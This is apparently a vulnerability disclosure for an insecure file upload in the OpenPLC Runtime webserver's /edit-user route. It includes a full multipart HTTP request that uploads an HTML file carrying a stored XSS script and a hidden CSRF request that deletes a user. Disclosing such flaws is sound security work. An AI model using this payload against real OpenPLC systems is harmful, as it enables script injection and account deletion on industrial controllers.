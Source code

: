 
# 🔥 Insecure File Upload in OpenPLC Runtime Webserver

## 📌 Summary

I discovered a vulnerability in the OpenPLC Runtime webserver (released version: 2024-12-31) that allows authenticated users to upload arbitrary files (e.g., `.html`, `.svg`) as profile pictures. These files are stored in the `/static/` directory and are accessible **without authentication**, enabling stored XSS or malicious hosting scenarios.

---

## 🧪 Affected Component

- Route: `/edit-user`
- Affected: File upload functionality for profile images

---

## ⚠️ Impact

- Arbitrary file upload with insufficient MIME and extension validation
- Stored XSS / Client-side code execution
- Malicious content hosting
- Unauthenticated access to uploaded files
- Potential pivot for CSRF or phishing attacks

---

## 🎯 Attack Vector

1. Authenticated user uploads a `.html` or `.svg` file as a profile picture.
2. File is stored in `/static/` and given a predictable ID (e.g., `http://localhost:8080/static/336029.html`)
3. Any user (even unauthenticated) can access the uploaded file directly.
4. If the file contains JavaScript or other malicious code, it will execute in the victim’s browser.

---

## 📸 Visual Proof of Concept

### Dashboard when PLC is running
![dashboard.png](./dashboard.png)

### Uploading a malicious `.html` file
![choose file.png](./choose%20file.png)

### Using "All Files" to bypass image filter
![file.png](./file.png)

### Uploaded XSS executed from `/static/`
![poc.png](./poc.png)

---

## 🎞️ Video PoCs

- **Basic PoC demo**  
  📽️ [`poc de base.mp4`](./poc%20de%20base.mp4)

- **Unauthenticated access demonstration**  
  ! [`unauthenticated.mp4`](./unauthenticated.mp4)

- **CSRF Potential Abuse**  
  📽️ [`poc csrf.mp4`](./poc%20csrf.mp4)

---

## 👤 User Management Abuse

### Users before attack
![Users.png](./Users.png)

### Adding a file via profile picture field
![choose file.png](./choose%20file.png)

### Injected user saved with arbitrary name
![Users.png](./Users.png)

---

## 📤 Exploit Request Example with Burp Suite Repeater

```http
POST /edit-user HTTP/1.1
Host: 127.0.0.1:8080
Content-Length: 1397
Cache-Control: max-age=0
sec-ch-ua: 
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: ""
Upgrade-Insecure-Requests: 1
Origin: [OpenPLC URL]
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryW3GoLRyFS7dyLS2B
User-Agent: [UA]
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: http://127.0.0.1:8080/edit-user?table_id=10
Accept-Encoding: gzip, deflate
Accept-Language: fr-FR,fr;q=0.9,en-US;q=0.8,en;q=0.7
Cookie: session=[cookie]
Connection: close

------WebKitFormBoundaryW3GoLRyFS7dyLS2B
Content-Disposition: form-data; name="user_id"

10
------WebKitFormBoundaryW3GoLRyFS7dyLS2B
Content-Disposition: form-data; name="full_name"

OpenPLC User
------WebKitFormBoundaryW3GoLRyFS7dyLS2B
Content-Disposition: form-data; name="user_name"

openplc
------WebKitFormBoundaryW3GoLRyFS7dyLS2B
Content-Disposition: form-data; name="user_email"

openplc@openplc.com
------WebKitFormBoundaryW3GoLRyFS7dyLS2B
Content-Disposition: form-data; name="user_password"

mypasswordishere
------WebKitFormBoundaryW3GoLRyFS7dyLS2B
Content-Disposition: form-data; name="file"; filename="poc cve.html"
Content-Type: text/html

<!DOCTYPE html>
<html>
<head>
  <title>PoC – Unfiltered Upload</title>
</head>
<body>
  <h1>Proof of Concept</h1>

  <p>Payload uploaded on vulnerable endpoint. If filtering is broken, executing script below proves stored XSS.</p>

  <h2>XSS Demo (auto-executed)</h2>
  <script>alert('PoC xss')</script>

  <h2>CSRF</h2>
  <img src="http://127.0.0.1:8080/delete-user?user_id=[User ID]" style="display:none" />

  <h2>document.domain</h2>
  <p>Opened from: <script>document.write(document.domain)</script></p>

  <h2>Manual link to malicious HTML</h2>
  <a href="https://google.com/" target="_blank">Click to redirect on google.com</a>
</body>
</html>

------WebKitFormBoundaryW3GoLRyFS7dyLS2B--
